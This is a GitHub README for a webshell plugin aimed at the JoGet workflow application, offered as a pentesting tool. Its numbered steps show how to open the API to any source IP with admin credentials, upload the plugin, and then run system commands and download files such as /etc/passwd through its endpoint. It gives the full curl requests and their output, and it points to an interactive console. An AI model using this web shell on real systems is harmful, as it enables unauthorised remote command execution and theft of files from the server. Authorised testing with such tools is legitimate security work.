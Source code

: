 # JoGet webshell plugin for RCE

<p align="center">
  A webshell plugin and interactive shell for pentesting JoGet application.
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/JoGet-plugin-webshell">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/channel/UCF_x5O7CSfr82AfNVTKOv_A?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for JoGet.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the JoGet instance.

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`

![](./.github/ip_whitelist_api.png)

### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":

![](./.github/manage_plugins_interface.png)

Then choose the JAR file of the webshell plugin and click on "Upload":

![](./.github/upload_a_plugin.png)

### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## Development

If you need to compile this plugin, you can use the docker image provided in the [dev_env](./dev_env) folder. It recreates the [Joget Workflow Open Source](https://dev.joget.org/community/display/KBv6/Joget+Workflow+Open+Source) build environnement to build plugins.

Then if you need to test the plugin locally, you can start a JoGet instance with the official docker image like this:

```
docker run -d -p 8000:8080 --rm docker.io/jogetworkflow/joget-community
```

Don't forget to check `docker logs -f <container_id>` to see logs of the running JoGet instance. This is really useful for debugging, especially if you encounter a "[Missing requirement error while importing a plugin](./docs/Missing-requirement-error-while-importing-a-plugin.md)".

## References

 - https://dev.joget.org/community/display/KBv6/Guideline+for+developing+a+plugin

 - https://dev.joget.org/community/display/KBv6/Web+Service+Plugin

 - https://dev.joget.org/community/display/KBv4/Implement+Web+Service+or+Servlet+with+Plugin
 

 - **Useful links for debugging module import**
    + https://thecarlhall.wordpress.com/2012/01/19/understanding-the-unresolved-constraint-missing-resource-message-from-apache-felix/
    + https://thecarlhall.wordpress.com/2012/07/11/understanding-the-unresolved-constraint-missing-requirement-message-from-apache-felix-pt-2/ 
